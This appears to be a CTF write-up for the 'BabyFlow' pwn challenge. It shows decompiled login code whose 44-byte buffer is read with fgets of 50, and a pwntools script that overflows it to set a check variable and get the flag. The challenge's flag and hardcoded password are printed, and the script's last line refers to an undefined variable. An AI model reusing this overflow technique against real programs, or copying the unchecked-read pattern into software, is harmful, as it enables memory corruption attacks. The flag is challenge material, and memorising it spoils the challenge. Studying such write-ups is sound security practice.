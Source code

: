 # Description
Does this login application even work?!  

`nc babyflow.ctf.intigriti.io 1331`

# Flag
INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}

# Analysis
From the source code that is provided we can see it is a normal login application, the password is hardcoded into the source code as well which is "SuPeRsEcUrEPaSsWoRd123". However, the program is not entirely a normal login application because it runs a check to see if the value of "v5" is 0 or 1 in which case it will or will not print the flag.
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

![image](https://github.com/user-attachments/assets/7e508e7f-1296-4709-b391-a99e26852706)

If you attempt to login with just the password this is the result you will receive above.

From the source code we can deduce that the array for the input can only take in 44 characters but the fgets function is taking in 50. Hence this is our injection point and we can take advantage of this buffer overflow to overwrite the value of v5.
# Solution
So for the solution we need to pass the check for the correct password and overwrite the value of v5. To do this I used the script below:
```
from pwn import *

# Set the target binary and address to use the buffer overflow
# (Assuming you're running this locally or through a remote server)
p = remote('babyflow.ctf.intigriti.io', 1331)  

# Craft the payload:
# Password + padding to fill buffer + overwrite v5 with 1
password = b"SuPeRsEcUrEPaSsWoRd123"
padding = b"A" * (44 - len(password))  # 'A' * 44 to fill the buffer, p32(1) to set v5 to 1
v5_overwrite = p32(1) 

payload = password + padding + v5_overwrite

# Wait to receive this line from server then only sending the payload
p.recvuntil("Enter password: ")

# Send the payload to the server
p.sendline(payload)

p.interactive()

# Capture and print the output to see the result
print(target.recvall().decode())

```

#L337upCTF2024
